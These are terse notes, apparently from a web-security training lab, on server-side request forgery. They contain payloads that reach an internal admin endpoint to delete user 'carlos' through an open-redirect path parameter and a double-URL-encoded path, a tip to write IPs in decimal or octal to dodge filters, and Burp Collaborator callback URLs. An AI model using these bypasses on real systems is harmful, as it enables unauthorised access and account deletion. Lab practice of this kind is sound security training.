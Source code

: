 you can convert ip to decimal or octal reprisentation

http://192.168.0.12:8080/admin/delete/
http://192.168.0.12:8080/admin/delete?username=carlos

/product/nextProduct?&path=http://192.168.0.12:8080/admin
http://192.168.0.12:%25%33%38%25%33%30%25%33%38%25%33%30%25%32%66%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65%25%32%66%25%36%34%25%36%35%25%36%63%25%36%35%25%37%34%25%36%35%25%32%66%25%36%33%25%36%31%25%37%32%25%36%63%25%36%66%25%37%33

http://r91gushu9cjj63pj30m3t3kvimocc1.burpcollaborator.net


http://xwxmhy40wi6pt9cpq699g9715sbjz8.burpcollaborator.net